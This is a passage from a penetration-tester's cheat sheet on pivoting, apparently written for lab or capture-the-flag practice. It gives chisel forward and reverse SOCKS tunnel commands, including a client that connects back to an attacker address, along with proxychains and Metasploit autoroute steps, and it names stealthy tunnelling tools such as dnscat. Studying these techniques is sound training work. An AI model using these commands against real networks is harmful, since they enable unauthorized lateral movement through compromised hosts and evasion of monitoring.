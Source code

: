   2. Run the server on the Pivot Host

     ````bash
     ./chisel server -v -p 1234 --socks5
     ````

  3. On Kali, connect to the server

     ```bash
     ./chisel client -v <PivotIP>:1234 socks
     ```

  4. In `/etc/proxychains4.conf` add `socks5 127.0.0.1 1080`

  5. Use `proxychains` to `IntranetIP`

- **chisel (reverse):**

  1. On Kali, start the server:

     ```bash
     sudo ~/TOOLS/CHISEL/chisel_lin64 server --reverse -v -p 1234 --socks5
     ```

  2. On the Pivot Host:

     ```bash
     ./chisel client -v 10.10.14.17:1234 R:socks
     ```

  3. Add `socks5 127.0.0.1 1080` in `/etc/proxychains4.conf` 

  4. Connect with `proxychains`

- **Metasploit**
	- From a session ->`run autoroute -s [INTERNAL_CIDR]`
	- `backgroud` -> `post/multi/manage/autoroute` 
	- `set SRVPORT 9050`, `set version 5`-> `run`
	- `sudo proxychains -q [CMD]` → Send Commands Through SOCKS
- plink.exe

- netsh

- socat

- dnscat (very stealthy, uses DNS)

- Ptunnel


## Remote/reverse forwarding

Forward a local service to a remote port. Usually used to gain shells or exchange files from the pivoted hosts to other targets that are only reachable from the pivot hosts via dynamic forwarding.

- **Ligolo**

  1. On your machine, run `ligstart` to start the ligolo server

  2. File transfer  the agent on the target from `TOOLS/ligolo-ng/dist`
